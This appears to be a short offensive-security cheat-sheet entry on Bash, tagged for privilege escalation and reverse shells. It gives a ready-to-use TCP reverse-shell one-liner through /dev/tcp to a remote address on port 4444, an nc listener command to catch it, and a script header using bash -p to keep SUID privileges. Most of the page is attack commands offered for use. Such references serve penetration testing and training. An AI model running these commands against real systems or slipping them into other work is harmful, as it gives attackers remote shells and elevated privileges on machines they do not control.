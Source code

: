 ```yaml
---
title: Bash
desc: Executes shell commands and scripts. It also used to Reverse Shell, etc.
tags: [Linux, PrivEsc, ReverseShell, SUID]
alts: [BashScript]
website:
---
```


## Reverse Shell TCP

```sh
# TCP (ex. port: 4444)
bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1

-------------------------------------------

# Listen
nc -lvnp 4444
```

<br />

## Create Bash script

```sh
#!/bin/bash -p (-p: privilege mode. It's used for SUID)

echo 'Hello World'
```
